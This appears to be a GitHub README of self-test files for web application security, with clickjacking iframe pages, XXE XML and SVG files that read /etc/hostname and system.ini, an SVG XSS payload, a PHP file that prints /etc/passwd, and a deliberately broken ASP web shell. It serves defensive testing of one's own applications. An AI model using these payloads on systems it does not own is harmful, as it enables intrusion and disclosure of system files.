 We will not be hosting files because most people cannot download vulnerable files off github from company networks.
Please understand how these files work before utilizing them.


### Clickjacking
Put the link to your site into the iframe section at the bottom of each file, then save as an html file. Log in to your application, then double click on the following html file so that it opens in the same browser. If you can see your website in the iframe, this proves your application is vulnerable to clickjacking.

The following files come from PortSwigger: https://portswigger.net/web-security/clickjacking

**Basic: test1.html**
```
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: .2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:100px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://www.yourSiteHere.com/dashboard"></iframe>
```

**Frame busting: test2.html**
```
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: .2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:100px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="https://www.yourSiteHere.com/dashboard"></iframe>
```


Before testing the files below, try uploading calc.exe from a Windows computer. If it successfully uploads, start the remediation procedures. If calc.exe does not upload, or if you want to test further, attempt to upload the files below.

### XXE
**XXE File: Test.xml** \
Please note that the file called below should be replaced with a valid Linux file if the Web Server is Linux based.
```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ELEMENT test ANY >
<!ENTITY test SYSTEM "file:///c:/Windows/system.ini" >]><test>&test;</test>
```

**SVG File: test.svg** \
https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
### XSS
**SVG file: testabc.svg** \
https://github.com/makeplane/plane/security/advisories/GHSA-rcg8-g69v-x23j
```
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
      alert(0x539);
   </script>
</svg>
```

**PDF File: XSSinPDF.pdf** \
https://portswigger.net/research/portable-data-exfiltration

https://owasp.org/www-chapter-belgium/assets/2007/2007-06-22/OWASP_BeLux_2007-06-22_Protecting_Web_Applications_from_Universal_PDF_XSS.pdf

Known benign XSSinPDF to download: https://github.com/ynsmroztas/pdfsvgxsspayload/blob/main/poc.pdf

### Remote Code Execution
These files should be deleted immediately after testing. Leaving these files on your web server could lead to true impact.

**PHP File Upload: file1.php** \
Please note that the file called below should be replaced with a valid Windows file if the Web Server is Linux based.

```
<?php echo file_get_contents('/etc/passwd'); ?>
```
**asp Web Shell: test.asp** \
The file below is a butchered version of the file linked below. This version is broken to reduce potential impact if a developer uses it incorrectly or keeps the file uploaded on the web server. If you would like to use a working version of this script, visit the link below. For testing purposes, you do not need a working version.

Source: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.asp

```
<%
Server.ScriptTimeout = 180

ip=request.ServerVariables("REMOTE_ADDR")
if ip<>"1.2.3.4" then
 response.Status="404 Page Not Found"
 response.Write(response.Status)
 response.End
end if

if Request.Form("submit") <> "" then
   Dim wshell, intReturn, strPResult
   cmd = Request.Form("cmd")
   Response.Write ("Running command: " & cmd & "<br />")
   Set objCmd = wShell.Exec(cmd)
   response.write "<br><pre>" & replace(replace(strPResult,"<","&lt;"),vbCrLf,"<br>") & "</pre>"
   set wshell = nothing
end if

%>
<html>
<body onload="document.shell.cmd.focus()">
<form action="shell.asp" method="POST" name="shell">
<input type="submit" name="submit" value="Submit" />
%ComSpec% /c dir
</form>
<hr/>
</body>
</html>
```